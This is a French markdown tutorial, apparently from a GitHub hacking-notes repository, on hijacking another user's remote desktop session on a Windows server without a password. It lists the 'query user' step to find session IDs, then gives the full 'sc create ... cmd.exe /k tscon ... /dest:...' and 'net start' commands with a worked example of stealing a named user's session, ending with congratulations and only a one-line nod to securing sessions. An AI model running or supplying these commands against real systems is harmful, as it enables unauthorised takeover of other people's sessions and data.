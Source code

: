 # Hijack session pc distant avec la faille tscon

# tscon
Cette commande est utilisée pour se connecter sur une autre session d'un PC distant (serveur par ex.).
Elle nécessite le nom de destination et l'ID de session pour s'exécuter.

# query user
Cette commande permet d'afficher la liste et informations de session de tous les utilisateurs s'ayant déjà connecté au serveur distant.
Utile ici pour récupérer le nom de destination et l'ID de session à hijacker.

# service (sc)
Cette commande permet de voler (hijacker) la session de n'importe quelle cible, sans mot de passe (password bypassing) :  
* **<process_name>** est le nom du service à créer (nom bidon, aucune importance, faudra juste arrêter le service avec le meme nom ensuite)*  
* **<user 2_ID>** est l'**ID** (numéro d'identification) de la **session-cible**, celle à hijacker*  
* **<session_name>** est le nom de **votre** session*  
```
sc create <process_name> binpath= "cmd.exe /k tscon <user 2_ID> /dest:<session_name>"
```

# Exemple
Commande query user à lancer dans un terminal (cmd, powershell...) :
![query user](https://github.com/Sefiria/ConseilHack/blob/4f5599508ecff62dee4d58175405257ac78a1636/Documentation/En%20vrac/res/Hijack%20session%20pc%20distant%20annexe.png?raw=true)

Exécuter ensuite la commande du paragraphe "service" ainsi que celle pour démarrer le service, exemple ici :  
*Nous sommes dans cet exemple Titi, et souhaitons voler la session de Toto*  
* **<process_name> = hijack** (nom du service - le nom n'a pas d'importance)*  
* **<user 2_ID> = 8** (ID de la session-cible)*  
* **<session_name> = rdp-tcp#1** (nom de notre session actuelle)*
```
sc create hijack binpath= "cmd.exe /k tscon 8 /dest:rdp-tcp#1"
net start hijack
```
**Félicitations, vous venez d'Hijacker une session distante via une faille de tscon exécuté par service sans mot de passe.**  
Comprenez alors l'importance de sécuriser, logger les sessions utilisateurs.  
**N'oubliez pas de stopper le service une fois avoir fini avec la commande *net stop <process_name>*** :
```
net stop hijack
```

